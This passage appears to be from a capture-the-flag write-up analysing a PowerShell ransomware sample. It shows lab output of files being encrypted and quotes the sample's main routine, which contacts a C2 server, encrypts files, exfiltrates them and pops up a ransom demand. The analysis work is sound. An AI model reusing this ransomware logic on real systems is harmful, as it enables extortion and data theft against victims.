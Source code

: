 ```powershell
 C:\Users\IEUser\Documents\flag_47.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_48.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_49.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_5.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_50.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_51.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_52.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_53.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_54.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_55.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_56.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_57.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_58.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_59.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_6.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_7.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_8.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_9.txt is now encrypted [!]
 C:\Users\IEUser\Documents\IoT_security_IoTSec_considerations_requirements_and_architectures.pdf is now encrypted [!]
 C:\Users\IEUser\Documents\jM-z3b7f_400x400.jpg is now encrypted [!]
 C:\Users\IEUser\Documents\mim.png is now encrypted [!]
 C:\Users\IEUser\Documents\pexels-sebastiaan-stam-1097456.jpg is now encrypted [!]
 C:\Users\IEUser\Documents\vietnam.jpg is now encrypted [!]
 C:\Users\IEUser\Documents\z3399223868975_f9672eaf281fbf6771659ccb18692a12.jpg is now encrypted
 ```

Bingo, many `.txt` file was encrypted. 
### Finding the flag
Now we need to find how and where the file was sent.

Looking back at main function, we could see after running `EncryptFiles` it run `ExfiltrateFiles` 

```powershell
if ($Mode -eq "-d") { 
 Write-Host ; Write-Host "[!] Shutdowning...." -ForegroundColor Red; sleep 1 }
else {
 Write-Host ;
 Write-Host "[+] Checking communication with C2 Server.." -ForegroundColor Blue
 $DCe = GetStatus ; sleep 1
 $WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})
 Write-Host "[!] Encrypting ..." -ForegroundColor Red
 CreateReadme ; EncryptFiles ; if ($DCe) { SendResults ; sleep 1
 if ($ENyR -eq "-x") { Write-Host "[i] Exfiltrating ..." -ForegroundColor Green
ExfiltrateFiles ; sleep 1 }}
 if (!$DCe) { Write-Host "[+] Saving logs in yaginote.txt.." -ForegroundColor Blue }
 else { Write-Host "[+] Sending logs to C2 Server.." -ForegroundColor Blue }}
 if ($args -like "-demo") { RemoveWallpaper ; PopUpRansom
 if ($PayNow -eq "True") { SendPay ; SendOK } else { SendClose ; SendOK }}
 else { SendOK }
sleep 1000 ; Write-Host "[i] Done!" -ForegroundColor Green ; Write-Host
```
The `EncryptFiles` and `ExfiltrateFiles` processes, in short, encrypt all files in a folder (file exclusions are defined within the functions) using AES encryption with the key `$masterEncryptionKey` and then encrypt the data again using `R64Encoder`
